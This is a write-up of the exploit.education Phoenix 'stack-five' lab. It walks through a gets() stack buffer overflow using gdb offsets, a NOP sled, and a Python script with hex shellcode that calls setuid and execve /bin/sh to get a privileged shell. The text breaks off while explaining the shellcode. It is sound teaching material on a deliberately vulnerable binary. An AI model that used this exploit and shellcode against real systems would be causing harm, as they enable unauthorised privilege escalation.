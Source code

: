 # stack-five

The challenge of this level is to execute /bin/sh to gain a priveleged shell. The source code is very simple: the program asks for user input with `gets`, and the input is written to a 128 bytes buffer. There is nothing here to prevent a buffer overflow. To execute a program on linux, we use the syscall `execve`:

```sh
man execve
SYNOPSIS
       #include <unistd.h>

       int execve(const char *pathname, char *const argv[],
                  char *const envp[]);

DESCRIPTION
       execve() executes the program referred to by pathname.  This causes the
       program that is currently being run by the calling process  to  be  re‐
       placed  with  a  new  program,  with newly initialized stack, heap, and
       (initialized and uninitialized) data segments.

       ...ouput omitted...

       argv  is  an  array  of argument strings passed to the new program.  By
       convention, the first of these strings (i.e., argv[0])  should  contain
       the filename associated with the file being executed.  envp is an array
       of strings, conventionally of the form key=value, which are  passed  as
       environment to the new program.  The argv and envp arrays must each in‐
       clude a null pointer at the end of the array.
```

What we can do is to write a small program in assembly, compile it to machine code, and then write that machine code to the stack. Then, we overwrite the return pointer and make it point to our code on the stack. The injected code is referred to as shellcode, because the goal is often to achieve a priveleged shell, but not always.

Let us begin by figuring out how far we have to write to hit the return pointer. Load stack-five into gdb and set a breakpoint at the return from start_level:

```sh
gef➤  disass start_level
Dump of assembler code for function start_level:
   0x08048485 <+0>:     push   ebp
   0x08048486 <+1>:     mov    ebp,esp
   0x08048488 <+3>:     sub    esp,0x88
   0x0804848e <+9>:     sub    esp,0xc
   0x08048491 <+12>:    lea    eax,[ebp-0x88]
   0x08048497 <+18>:    push   eax
   0x08048498 <+19>:    call   0x80482c0 <gets@plt>
   0x0804849d <+24>:    add    esp,0x10
   0x080484a0 <+27>:    nop
   0x080484a1 <+28>:    leave
=> 0x080484a2 <+29>:    ret
End of assembler dump.
gef➤  break *0x080484a2
Breakpoint 1 at 0x80484a2
```

Now, run the program with 128 A's to fill up the buffer, followed by B's, C's and so on. When the program stops at the breakpoint, examine the stack pointer.

```sh
gef➤  r <<< $(python -c 'print("A"*128 + "BBBBCCCCDDDDEEEEFFFFGGGG")')

...output omitted...

Breakpoint 1, 0x080484a2 in start_level ()
gef➤  x/2wx $esp
0xffffd5ec:     0x45454545      0x46464646
```

We see that esp points to our E's, at address 0xffffd5ec, right before ret is executed, so we have to replace the E's by whatever address we want to jump to. But exactly what value do we put there? We could write our code to execute /bin/sh right after the E's, so that the first instruction of our injected program is placed where the F's are now. In that case, we would simply have the return pointer also point to where the F's are now. But the with that is that the stack can move a little bit up or down, depending on environment variables, argv etc. Our exact, hard coded address might then not hit exactly where we intended.

A neat trick is to use a so-called nops slide; there exists an instruction called NOP (opcode 0x90), which stands for "no operation". It does nothing. The program just continues with the next instruction. If we write a bunch of these nop instructions after the return pointer, followed by our shellcode, we can then make the return pointer point somewhere roughly in the middle of the long chain of nops. As long as the stack doesn't move too much, we should always land somewhere in the nops slide and "slide" down until we hit the shellcode.

The Python script below is a summary of the discussion above. We don't have shellcode yet, but just a single instruction INT3, with opcode 0xcc, which is a call to an interrupt  procedure to generate a breakpoint trap. The variable `stack_addr` has been set to point somewhere in the nops slide. (Remember that 0xffffd5ec was the address of the return pointer.)

```python
shellcode = "\xcc"

nops = "\x90"*256

stack_addr = "\x40\xd6\xff\xff"

buff = ""
buff += "A"*128
buff += "BBBBCCCCDDDD"
buff += stack_addr
buff += nops
buff += shellcode

print(buff)
```

Let us run the program with the script output as input and see what happens:

```sh
user@phoenix-amd64:~$ python exploit.py | /opt/phoenix/i486/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Trace/breakpoint trap
```

Our "shellcode" was successfully executed. Now we just have to write shellcode that executes /bin/sh. How to actually write shellcode will be covered in a different article. For now, we will use the following:

```python
shellcode = "\x31\xc0\x31\xdb\x31\xc9\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\xeb\x1c\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x8d\x4b\x08\x8d\x53\x0c\xb0\x0b\xcd\x80\xe8\xdf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"

nops = "\x90"*256

stack_addr = "\x40\xd6\xff\xff"

buff = ""
buff += "A"*128
buff += "BBBBCCCCDDDD" # EEEEFFFFGGGG"
buff += stack_addr
buff += nops
buff += shellcode

print(buff)
```

The code first sets the real user id of the process equal to the effective user id of the process.
